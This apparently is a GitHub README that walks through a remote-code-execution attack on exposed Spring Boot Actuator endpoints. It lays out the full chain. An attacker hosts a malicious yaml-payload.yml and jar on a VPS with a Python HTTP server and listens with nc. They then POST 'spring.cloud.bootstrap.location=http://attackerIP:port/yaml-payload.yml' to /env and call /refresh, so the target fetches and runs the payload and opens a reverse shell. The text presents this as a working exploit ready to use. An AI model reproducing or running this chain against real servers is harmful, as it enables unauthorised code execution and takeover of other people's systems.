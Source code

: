 # spring-rce
spring-rce

You can see that the main interface can log in without authorization. Of course, not logging in may also trigger this vulnerability
![image](https://user-images.githubusercontent.com/83150001/115980614-b2fa8b00-a5c0-11eb-9d62-edd3a1ed8d1c.png)

Add / env to the path of the website to see the error information in the log

![image](https://user-images.githubusercontent.com/83150001/115980640-d8879480-a5c0-11eb-87eb-1123b2387d8f.png)


Environmental preparation:
Open the web service on VPS and add yaml- payload.yml , and yaml- payload.jar Upload to the server, as shown in the figure below.

python3 -m http.server 8088
![image](https://user-images.githubusercontent.com/83150001/115980675-23091100-a5c1-11eb-95df-4edeadb81b06.png)


![image](https://user-images.githubusercontent.com/83150001/115980673-1f758a00-a5c1-11eb-9ad8-c19a1a391a2f.png)
NC monitor rebound port.
![image](https://user-images.githubusercontent.com/83150001/115980741-90b53d00-a5c1-11eb-922b-40de92a6cc53.png)
The file payload of YML is as follows:
![image](https://user-images.githubusercontent.com/83150001/115980759-b3dfec80-a5c1-11eb-8cf7-2641ab86d7b6.png)

yaml-payload.jar You need to download and modify the compilation
Download address：
https://github.com/artsploit/yaml-payload


Start using the following: modify the request

Send request package:

POST /env 
spring.cloud.bootstrap.location=http://attackerIP:port/yaml-payload.yml
![image](https://user-images.githubusercontent.com/83150001/115980828-43859b00-a5c2-11eb-9b85-276091a0ae9c.png)

Request / refresh interface, refresh interface configuration, and successfully rebound the session to VPS.
![image](https://user-images.githubusercontent.com/83150001/115980857-7891ed80-a5c2-11eb-8bb5-a0704518c5f9.png)





